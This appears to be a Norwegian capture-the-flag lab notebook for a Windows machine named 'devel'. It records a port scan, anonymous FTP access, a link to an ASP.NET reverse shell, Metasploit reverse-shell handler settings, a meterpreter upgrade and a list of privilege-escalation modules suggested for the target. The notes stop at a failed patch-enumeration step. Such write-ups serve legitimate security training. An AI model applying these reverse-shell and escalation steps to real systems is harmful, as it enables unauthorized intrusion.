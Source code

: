 # devel 10.10.10.5

windows maskin

`oot@kali:~# nmap -sS -P0 10.10.10.5`

`Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-26 09:47 EDT`

`Nmap scan report for 10.10.10.5`

`Host is up (0.061s latency).`

`Not shown: 998 filtered ports`

`PORT   STATE SERVICE`

`21/tcp open  ftp`

`80/tcp open  http`

logget inn **ftp **med **anonymous**.   login med -i som fjerner prompts

http kjører iis7


fikk et skikkelig shell med [https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/](https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/)


**windows 7 6.1 build 7600 x86**

**koble et shell rett inn i metasploit og oppgradere til meterpreter**



```
* use multi/handler

* set LHOST attack-machine

* set LPORT port-as-appropraite

* set payload windows/shell/reverse\_tcp

* exploit'
```


background session med ctrl z&lt;

`use post/multi/manage/shell_to_meterpreter`


kan her kjøre kommandoer. 


```
net users
```


```
Administrator            babis                    Guest**
``

/c whoami = iis apppool\**web**



**```
use post/multi/recon/local_exploit_suggester **
**FORSØKT ALLE DISSE UTEN HELL**



```

\[+\] 10.10.10.5 - exploit/windows/local/bypassuac\_eventvwr: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms10\_015\_kitrap0d: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms10\_092\_schelevator: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms13\_053\_schlamperei: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms13\_081\_track\_popup\_menu: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms14\_058\_track\_popup\_menu: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms15\_004\_tswbproxy: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms15\_051\_client\_copy\_image: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms16\_016\_webdav: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms16\_032\_secondary\_logon\_handle\_privesc: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ppr\_flatten\_rec: The target appears to be vulnerable.
```

getsystem = ingenting

```

wmic qfe get
```

no work :(

sjekke hvilke prossesser som kjører med admin privelege.



```
use post/windows/gather/enum_patches    
```
msf post(shell_to_meterpreter) > use post/windows/gather/enum_patches
msf post(enum_patches) > set session 2
session => 2
msf post(enum_patches) > exploit

[-] Post failed: NoMethodError undefined method `[]' for nil:NilClass
[-] Call stack:
[-]   /usr/share/metasploit-framework/modules/post/windows/gather/enum_patches.rb:72:in `run'
[*] Post module execution completed

msf post(enum_patches) > run

[-] Known bug in WMI query, try migrating to another process
[*] Post module execution completed




